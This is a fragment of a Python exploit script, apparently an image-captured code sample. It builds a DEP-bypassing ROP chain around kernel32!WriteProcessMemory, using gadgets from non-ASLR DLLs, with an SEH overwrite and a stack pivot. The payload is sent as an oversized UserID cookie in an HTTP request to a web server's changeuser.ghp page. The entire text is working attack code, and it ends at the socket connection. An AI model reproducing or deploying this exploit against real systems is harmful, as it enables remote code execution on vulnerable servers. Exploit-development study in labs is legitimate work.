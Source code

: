 ```python
crash += struct.pack('<L', 0x61c6588d)    # mov ecx, eax ; mov eax, ecx ; add esp, 0x24 ; pop ebx ; leave ; ret: sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x90909090)    # Padding to compensate for above ROP gadget
crash += struct.pack('<L', 0x90909090)    # Padding to compensate for above ROP gadget
crash += struct.pack('<L', 0x90909090)    # Padding to compensate for above ROP gadget
crash += struct.pack('<L', 0x90909090)    # Padding to compensate for above ROP gadget
crash += struct.pack('<L', 0x90909090)    # Padding to compensate for above ROP gadget
crash += struct.pack('<L', 0x90909090)    # Padding to compensate for above ROP gadget
crash += struct.pack('<L', 0x90909090)    # Padding to compensate for above ROP gadget
crash += struct.pack('<L', 0x90909090)    # Padding to compensate for above ROP gadget
crash += struct.pack('<L', 0x90909090)    # Padding to compensate for above ROP gadget (pop ebx)
crash += struct.pack('<L', 0x90909090)    # Padding to compensate for above ROP gadget (pop ebp in leave instruction)

# Jumping over kernel32!WriteProcessMemory placeholder parameters
crash += struct.pack('<L', 0x10015eb4)    # add esp, 0x1c ; ret: ImageLoad.dll (non-ASLR enabled module)

# kernel32!WriteProcessMemory placeholder parameters
crash += struct.pack('<L', 0x61c832e4)    # Pointer to kernel32!WriteFileImplementation (no pointers from IAT directly to kernel32!WriteProcessMemory, so loading pointer to kernel32.dll and compensating later.)
crash += struct.pack('<L', 0x61c72530)    # Return address parameter placeholder (where function will jump to after execution - which is where shellcode will be written to. This is an executable code cave in the .text section of sqlite3.dll)
crash += struct.pack('<L', 0xFFFFFFFF)    # hProccess = handle to current process (Pseudo handle = 0xFFFFFFFF points to current process)
crash += struct.pack('<L', 0x61c72530)    # lpBaseAddress = pointer to where shellcode will be written to. (0x61C72530 is an executable code cave in the .text section of sqlite3.dll) 
crash += struct.pack('<L', 0x11111111)    # lpBuffer = base address of shellcode (dynamically generated)
crash += struct.pack('<L', 0x22222222)    # nSize = size of shellcode 
crash += struct.pack('<L', 0x1004D740)    # lpNumberOfBytesWritten = writable location (.idata section of ImageLoad.dll address in a code cave)

# 4063 total offset to SEH
crash += "\x41" * (4063-len(crash))

# SEH only - no nSEH because of DEP
# Stack pivot to return to buffer
crash += struct.pack('<L', 0x10022869)    # add esp, 0x1004 ; ret: ImageLoad.dll (non-ASLR enabled module)

# 5000 total bytes for crash
crash += "\x41" * (5000-len(crash))

# Replicating HTTP request to interact with the server
# UserID contains the vulnerability
http_request = "GET /changeuser.ghp HTTP/1.1\r\n"
http_request += "Host: 172.16.55.140\r\n"
http_request += "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0\r\n"
http_request += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
http_request += "Accept-Language: en-US,en;q=0.5\r\n"
http_request += "Accept-Encoding: gzip, deflate\r\n"
http_request += "Referer: http://172.16.55.140/\r\n"
http_request += "Cookie: SESSIONID=9349; UserID=" + crash + "; PassWD=;\r\n"
http_request += "Connection: Close\r\n"
http_request += "Upgrade-Insecure-Requests: 1\r\n"

print "[+] Sending exploit..."
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("172.16.55.130", 80))
```